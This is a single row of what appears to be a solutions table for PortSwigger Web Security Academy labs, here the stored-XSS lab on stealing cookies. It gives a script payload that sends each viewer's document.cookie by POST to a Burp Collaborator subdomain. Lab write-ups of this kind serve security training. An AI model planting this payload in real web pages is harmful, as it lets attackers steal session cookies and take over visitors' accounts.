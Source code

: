 |14    |Exploiting cross-site scripting to steal cookies                                                                         |<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |Practitioner, Stored XSS                    |